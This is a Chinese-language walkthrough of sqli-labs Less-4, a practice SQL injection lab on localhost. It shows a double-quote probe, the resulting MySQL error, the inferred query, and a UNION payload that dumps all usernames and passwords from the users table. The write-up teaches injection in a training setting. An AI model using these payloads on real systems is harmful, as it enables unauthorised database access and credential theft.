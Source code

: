 # Less-4

依旧是熟悉的参数ID，测试id=1依旧有账户密码，进一步尝试报错注入发现没有报错信息，猜想可能和Less-3情况类似，服务器端的sql语句做了过滤或是限制导致我输入的数据都转成为了字符串无法执行，有了这个思路便可以在参数id=1后添加单引号或双引号，果然这关轮到双引号了

```http
http://localhost:8080/sqli-labs-master/Less-4/?id=1"
```

![1622164390341](1622164390341.png)

## 4.1 判断sql注入类型

分析报错信息

```mysql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

提取出有效信息

```mysql
"1"")
```

很容易看出我们提交的id=1“使得原本的sql语句提前闭合引起报错，还有这熟悉的右括号，这关基本上就是Less-3的一种变形模式，将单引号替换为了双引号，所以按照上一关的思路，还原这条sql语句

```mysql
select * from users where id=("$id");
```

所以这是一个双引号字符型sql注入

## 4.2 获取用户名和密码

因为和Less-3重复性过高，部分步骤直接略过，直接冲冲冲

```http
http://localhost:8080/sqli-labs-master/Less-4/?id=-1") union select 1,group_concat(username),group_concat(password) from security.users--+
```

![1622165521982](1622165521982.png)